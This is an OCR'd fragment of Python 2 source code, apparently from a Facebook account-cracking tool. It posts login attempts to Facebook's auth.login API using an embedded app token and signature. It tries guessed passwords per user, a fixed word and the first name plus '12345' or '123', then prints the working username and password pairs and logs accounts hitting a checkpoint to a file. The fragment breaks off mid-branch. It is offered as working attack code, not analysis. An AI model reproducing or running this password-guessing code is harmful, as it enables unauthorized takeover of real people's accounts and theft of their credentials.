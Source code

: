 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]: